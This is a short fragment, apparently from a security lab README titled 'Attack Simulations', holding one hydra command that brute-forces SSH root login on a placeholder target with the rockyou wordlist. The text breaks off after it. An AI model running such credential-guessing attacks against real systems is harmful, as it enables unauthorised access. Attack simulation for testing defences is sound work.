 ## Attack Simulations  
### 1. Brute-Force SSH Attack  
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>